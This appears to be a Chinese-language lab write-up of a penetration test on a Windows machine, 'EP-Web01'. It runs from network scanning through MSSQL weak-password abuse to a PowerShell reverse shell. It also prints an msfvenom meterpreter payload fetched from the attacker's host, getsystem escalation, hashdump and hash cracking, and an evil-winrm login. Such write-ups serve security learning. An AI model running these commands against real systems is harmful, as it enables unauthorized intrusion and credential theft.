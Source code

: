 ```yaml
---
title: "EP-Web01"
date: 2024-11-12
categories: 
  - "engineering-practice"
tags: 
  - "windows"
  - "工程实践"
---
```


## 前言

该靶机是目标局域网内的入口机器，本文目的是拿到Web01的最高权限并且实现远程登录

## 信息收集

```
$ arp-scan -l
```

![](./images/image.png)

发现存在一台IP值为：`192.168.237.139`的主机

```
$ namp 192.168.237.139
```

![](./images/image-1.png)

简单扫描发现开放端口：`21`、`80`、`1433`，其中存在mssql服务

使用`Fscan`进行扫描：[Releases · shadow1ng/fscan (github.com)](https://github.com/shadow1ng/fscan/releases)

```
$ ./fscan -h 192.168.237.139
```

![](./images/image-2.png)

发现ftp服务存在匿名访问，不过没有任何泄露

mssql服务存在弱口令

## 反弹SHELL

下载mssql命令执行工具：[Release mssql-command-tools · Mayter/mssql-command-tool](https://github.com/Mayter/mssql-command-tool/releases/tag/mssql)

并且生成powershell的反弹命令：[](https://www.ddosi.org/shell/)[HYH的反弹Shell生成器](https://www.hyhforever.top/revshell/)

![](./images/image-4.png)

nc监听端口

![](./images/image-5.png)

并且执行命令

![](./images/image-6.png)

成功得到powershell的反弹

![](./images/image-7.png)

## 权限提升

当前用户权限为普通用户

![](./images/image-9.png)

生成msf反弹木马

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.237.140 LPORT=6666 -f exe -o reverse.exe
```

![](./images/image-10.png)

并且开放http服务，让目标机器下载

```
#kali
$ python -m http.server 80

#PS
PS: curl 192.168.237.140/reverse.exe -O shell.exe
```

![](./images/image-11.png)

![](./images/image-12.png)

再开一个终端，打开msfconsole

```
$ msfconsole
```

![](./images/image-13.png)

设置监听器handler，并配置

```
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.237.140
msf6 exploit(multi/handler) > set lport 6666
msf6 exploit(multi/handler) > run
```

![](./images/image-14.png)

回到powershell那里运行exe文件

![](./images/image-15.png)

可以看到成功进入meterpreter

![](./images/image-16.png)

执行getsystem进行权限提升，如下图可以看到提升到了system最高权限

```
meterpreter > getsystem
```

![](./images/image-17.png)

进入administrator的目录下，拿到flag

![](./images/28722b3af9b10102e1018c2c979d56d0.png)

## 获取密码

```
$meterpreter > hashdump
```

获取到用户密码hash值，这里只要Administrator的光标部分，是由md5进行加密的

![](./images/image-20.png)

将其放入解密网站：[MD5免费在线解密破解\_MD5在线加密-SOMD5](https://www.somd5.com/)

成功得到密码

![](./images/299bc4d4b342a0e58d367c2663e65851.png)

## 远程登录

由于在真实的渗透测试环境下是无法直接接触到目标机器的，所以要找到远程登录的办法

进行nmap全端口扫描

```
$ nmap 192.168.237.139 -p- 
```

![](./images/image-22.png)

发现存在5985端口，该端口用于Windows的远程管理

**evil-winrm是一个可用于黑客攻击/渗透测试的Windows远程管理(WinRM)Shell**

由于知道了管理员的密码可以直接登录

```
$ evil-winrm -i 192.168.237.139 -u Administrator -p 'xxxx'
```

![](./images/image-23.png)

登录成功
